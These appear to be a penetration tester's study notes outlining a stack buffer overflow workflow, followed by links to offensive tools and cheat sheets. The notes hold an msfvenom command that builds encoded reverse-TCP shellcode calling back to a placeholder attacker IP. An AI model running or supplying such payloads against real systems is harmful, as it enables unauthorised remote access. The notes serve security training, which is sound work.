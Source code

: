 - - - -

### Buffer Overflow Useful Shit

**PROCESS**

1. Fuzzing: Determine length of overflow trigger w/ binary search "A"x1000

2. Determine exact EIP with `msf-pattern_create` & `msf-pattern_offset`

3. Determine badchars to make sure all of your payload is getting through

  1. No, **REALLY** check **EVERY** character!

4. Develop exploit
  - Is the payload right at ESP?
  -- Find a `JMP ESP`!
  -- Sprinkle some nops (\x90)... about 16 should do.
  - Is the payload before ESP?
  -- `sub ESP, 200` and then `JMP ESP`
  -- or
  -- `call [ESP-200]`

5. `msfvenom -a x86 --platform linux | windows -p linux | windows/shell/reverse_tcp lhost=<yourIP> lport=443 -f c -o shellcode.c -e x86/shikata_ga_nai`
  - Make sure it fits your payload length above

6. Gain shell, local priv esc or rooted already?

### TOOLZ

GCHQ CyberChef - https://gchq.github.io/CyberChef/

Empire (kind of a big deal) - https://github.com/EmpireProject/Empire

Hashcat - https://hashcat.net/hashcat/

John The Ripper - http://www.openwall.com/john/

JtR Jumbo - https://github.com/magnumripper/JohnTheRipper

Corelan mona.py for Immunity Debugger - https://github.com/corelan/mona/blob/master/mona.py

Immunity Debugger - http://debugger.immunityinc.com/

IDA - https://www.hex-rays.com/products/ida/support/download_freeware.shtml

- - - -

### Cheat Sheets

https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf

https://highon.coffee/blog/nmap-cheat-sheet/

http://www.cheat-sheets.org/saved-copy/Notepad++_Cheat_Sheet.pdf

http://www.isical.ac.in/~pdslab/2016/lectures/bash_cheat_sheet.pdf

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
